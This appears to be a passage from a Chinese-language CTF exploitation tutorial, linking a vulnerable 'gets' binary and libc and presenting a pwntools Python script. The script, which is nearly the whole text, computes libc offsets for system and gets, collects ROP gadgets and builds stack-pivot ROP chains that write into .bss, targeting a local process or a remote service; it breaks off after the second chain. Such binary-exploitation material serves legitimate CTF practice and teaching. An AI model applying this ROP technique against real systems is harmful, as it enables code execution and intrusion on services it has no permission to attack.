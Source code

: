 **例子:**[gets](/uploads/codes/w5/gets) [libc.so.6](/uploads/codes/w5/libc.so.6)

```python
#!/usr/bin/env python
from pwn import *
# context.log_level = 'debug'
context.arch = 'amd64'
local = 1
if local:
 p = process('./gets')
 # p = remote('127.0.0.1', 4000)
 libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
 p = remote('10.21.13.69', 10010)
 libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./gets')
g = lambda x: next(elf.search(asm(x)))
system_offset = libc.symbols['system']
gets_offset = libc.symbols['gets']
offset = system_offset - gets_offset
if offset < 0:
 offset &= 0xffffffff
gets_plt = elf.plt['gets']
gets_got = elf.got['gets']
libc_csu_init = elf.symbols['__libc_csu_init']
pop_rsp_r13_r14_r15_ret = g('pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret')
pop_rbp_ret = g('pop rbp ; ret')
pop_rdi_ret = g('pop rdi ; ret')
pop_r15_ret = g('pop r15 ; ret')
pop_rsi_r15_ret = g('pop rsi ; pop r15 ; ret')
pop_rbp_r14_r15_ret = g('pop rbp ; pop r14 ; pop r15 ; ret')
pop_rbx_rbp_r12_r13_r14_r15_ret = g('pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret')
add_ebx_esi_ret = g('add ebx, esi ; ret')
leave_ret = g('leave ; ret')
call_at_r12 = g('call QWORD PTR [r12+rbx*8]')
# gdb.attach(p)

bss = 0x602000
buf1 = bss - 0x100
buf2 = bss - 0x200
buf3 = bss - 0x300
buf4 = bss - 0x400
buf5 = bss - 0x500
buf6 = bss - 0x600
buf7 = bss - 0x700
buf8 = bss - 0x800

rop1 = [
 pop_rdi_ret, buf1, gets_plt, # rop2
 pop_rdi_ret, buf2, gets_plt, # rop4
 pop_rdi_ret, buf3, gets_plt, # rop5
 pop_rdi_ret, buf4, gets_plt, # rop7
 pop_rdi_ret, buf5, gets_plt, # rop9
 pop_rdi_ret, buf6, gets_plt, # rop10
 pop_rdi_ret, buf7, gets_plt, # rop13
 pop_rbp_ret, buf1 - 8, leave_ret
]

rop2 = [ # buf1
 pop_rdi_ret, gets_got + 24, gets_plt, # rop3
 pop_rbp_ret, buf2 - 8,
 pop_rsp_r13_r14_r15_ret, gets_got
]
```